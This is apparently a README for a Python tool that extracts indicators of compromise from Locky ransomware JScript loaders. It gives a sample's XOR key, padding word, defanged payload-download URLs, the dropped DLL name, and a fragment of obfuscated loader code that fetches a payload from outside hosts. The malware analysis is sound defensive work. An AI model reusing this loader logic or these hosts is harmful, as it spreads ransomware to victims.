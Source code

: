 # Locky Indicator of Compromise (IOC) JSCRIPT Extractor

Source: **https://www.flashpoint-intel.com/anatomy-locky-zepto-ransomware/**

Source:
```
Usage: **python LockyExtractor.py --> path to the local JScript Locky file.
```
**Goal**: Assist analysts with decoding and obtain relevant information from Locky HTA Application (HTA) and Windows Script File (WSF) JSCRIPT loaders.

Locky ransomware was notorious for its usage of the second-stage JavaScript and Windows Script File JSCRIPT in its spray-and-pray attacks.

**These are classic simple XOR-ed .wsf/.hta SCRIPT payloads used by this gang.**

For example, let’s take a look at this:
```
**sample 3d91a6ffed8b038363a0ead0f8985d1bdf88ba543aff0bcab048819d70455073.jscript.**
```

**Padding word:**
```
LICIZAX
```
**XOR Key:**
```
b6vYxEjsTYwJ7mIrZz4WFSGHeaddkwbq
```
**Payload URI: (*remove padding word and decode Base64): **
```
goldenladywedding[.]com/vdG76VUY76rjnu?CHhjpz=zhXHhhwS
www[.]jmetalloysllp[.]com/vdG76VUY76rjnu?CHhjpz=zhXHhhwS
livewebsol[.]com/vdG76VUY76rjnu?CHhjpz=zhXHhhwS
```
**Filename in %TEMP%/AppData/ (launched by rundll32.exe with ‘qwerty'):**
```
NqmXYsBdh[.]dll
```
**Here is the relevant function right below the eval() one:**
```
var brigadabrigadalalapolicMOTALO2HORDA17 = "NqmXYsBdh";
var brigadabrigadalalapolicTRAxKey = brigadabrigadalalapolicMOTALO2fsta("b6vYxEjsTYwJ7mIrZz4WFSGHeaddkwbq");
var brigadabrigadalalapolicMOTALO2_a5 = ["Z29sZGVubGFkeLICIZAXXdlZGRpbmcuY29tL3ZkRzc2VlVZNzZyam51","dLICIZAX3d3LmptZXRhbGxveXNsbHAuYLICIZAX29tL3ZkRzc2VlVZNzZyam51","bGl2ZXdlYnNvbC5jb20vdmRHLICIZAXNzZWVVk3NnJqbnU="]; 
var brigadabrigadalalapolicMOTALO2HORDAI = 0;
for(brigadabrigadalalapolicMOTALO2HORDA5 in brigadabrigadalalapolicMOTALO2_a5){
brigadabrigadalalapolicMOTALO2HORDAI++;
try{
var brigadabrigadalalapolicMOTALO2HORDA6 =brigadabrigadalalapolicMOTALO2_bChosteck.brigadabrigadalalapolicMRADXHO() + brigadabrigadalalapolicMOTALO2_a5[brigadabrigadalalapolicMOTALO2HORDA5].brigadabrigadalalapolicMRADXHO() + "?CHhjpz=zhXHhhwS";
if(brigadabrigadalalapolicMOTALO2_a2(brigadabrigadalalapolicMOTALO2HORDA6,brigadabrigadalalapolicMOTALO2HORDA17+brigadabrigadalalapolicMOTALO2HORDAI)){
break;
```
